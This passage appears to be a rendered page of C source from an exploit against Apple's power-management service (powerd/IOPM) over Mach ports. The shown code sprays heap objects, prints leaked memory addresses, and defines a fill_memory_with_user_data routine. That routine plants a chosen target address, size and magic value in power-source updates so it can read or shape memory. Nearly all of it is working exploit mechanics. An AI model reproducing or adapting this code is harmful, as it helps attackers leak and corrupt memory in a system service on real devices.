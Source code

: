 ```c

    printf("[+] Collected heap objects: %d objects\n",count);
#ifdef MEMDBG
    for(int i=0;i<count;i++)
        printf("Potential memory address %d -> 0x%llx\n",i,collect[i]);
#endif
#if 0
    // Read collected memory
    for(int i=0;i<collected;i++) {
        uint64_t guess = 0;
        if(!fill_memory_with_user_data(collect[i], 0x100, 0xdead+i, &guess)) {
            printf("failed\n");
            continue;
        }
    }
#endif

    // release powersource objects as always
    for(int i=0;i<psidCnt;i++) {
        io_ps_release_pspowersource(service_port,ps[i]);
        //ps[i] = -1;
    }

    vm_deallocate(mach_task_self(), (vm_address_t)pcum, size);
    return collect;
}

int fill_memory_with_user_data(uint64_t target,uint32_t size,uint32_t magic,uint64_t *addr)
{
    int psidCnt = 2,psid=-1;
    int psids[100] = {-1};
    kern_return_t kr = KERN_SUCCESS;
    int found = 0;
    /**/
    if(size > psizeP) {
        printf("Check the size plz, don't make crap \n");
        exit(-1);
    }
    uint64_t *val = (uint64_t*)&p[0];
    // poisoning
    //for(int i= 0;i<(size/8);i++) {
    //    val[i] = 0xaaaaaaaaaaad0000 | i;
    //}

    *(uint64_t*)((uint8_t*)(p+0x1C))        = target;       // address
    *(uint32_t*)((uint8_t*)(p+0x1C+24))     = size;         // size
    *(uint32_t*)((uint8_t*)(p+0x1C+24+4))   = magic;       // magic value in return

    for(int i=0;i<psidCnt;i++) {
        psid = -1;
        do_update_ps(service_port, &psid,100,p,size);
        psids[i] = psid;
    }


    //for(int i=0; i<900; i++) {
    for(int i=0; i<Iter; i++) {
        for(int i=0; i<psidCnt; i++)
            do_update_ps(service_port, &psids[i],100,p,size);

        ret = -1;
        kr = io_pm_connection_copy_status(service_port,0x10,&data,&cnt,&ret);

```